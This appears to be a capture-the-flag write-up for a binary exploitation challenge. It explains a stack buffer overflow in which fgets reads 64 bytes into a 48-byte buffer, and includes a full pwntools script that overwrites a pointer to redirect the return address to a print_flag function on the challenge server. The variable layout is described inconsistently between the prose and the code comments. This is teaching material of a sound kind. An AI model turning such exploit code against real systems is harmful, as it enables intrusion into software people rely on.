


[Source code](./handout/Bug_Bounty_4)

Here is the interaction with the challenge:



Before starting we need to know what a pointer is.  
A pointer is just a variable that stores the memory address of another variable rather than a direct value.

Here we get a pointer to the `name` variable.
We get another pointer `ptr` and from the source code this pointer will hold the address to the `value` variable.  
Here it's might be tricky but it's not.  
In the source code the name variable is 48 bytes but `fgets` function expect us to enter 64 bytes. That mean we can overwrite `ptr` and `value` because they are next to name `[name][ptr][value][return]`   
We have the address of name and PIE is not enabled, so we can:
1. calculate the value of the return address (return_addr = name_addr + 72 (48 + 8 + 8 +8 = 72 bytes) or 0x48 in hex)
2. overwrite `ptr` with the return address calculated previously (ptr now hold the return address of the program) 
3. overwrite `value` with the `print_flag` address 

So at the end of the program when it will come to return, it will execute the print_flag function.

```python
from pwn import *

PRINT_FLAG_FUNC_ADDR = 0x401216

# Connect to the instance
conn = remote('chal.sigpwny.com', 1346)

## ─── Step 1 : Get name address ───────────────────────────────────
res = conn.recvuntil(b' at ')

# Extract the name_address
name_addr = int(conn.recvuntil(b'\n').strip(), 16)

# Show in hex
log.info(f"name_addr = {hex(name_addr)}")

# ─── Step 2 : Calculate the return address ───────────────────────
# Layout: name[48] + value[8] + ptr[8] + saved_rbp[8] + return_addr
# You can see it from the print_stack function

return_addr = name_addr + 48 + 8 + 8 + 8
# or
# return_addr = name_addr + 0x48

log.info(f"return_addr = {hex(return_addr)}")
log.info(f"print_flag = {hex(PRINT_FLAG_FUNC_ADDR)}")  

payload = b'A' * 48 # fill name with 48 bytes
payload += p64(return_addr) # overwrite ptr with "return_addr" address
payload += p64(PRINT_FLAG_FUNC_ADDR) # overwrite value with "print_flag" address

conn.recvuntil(b'> ')
conn.sendline(payload)

conn.interactive()
``` 



As we can see:
1. `ptr` holds the address of the return address (in little-endian)
2. `value` holds the address of print_flag (in little-endian)
3. We got the flag!

[Bug Bounty 5](./Bug_Bounty_5.md)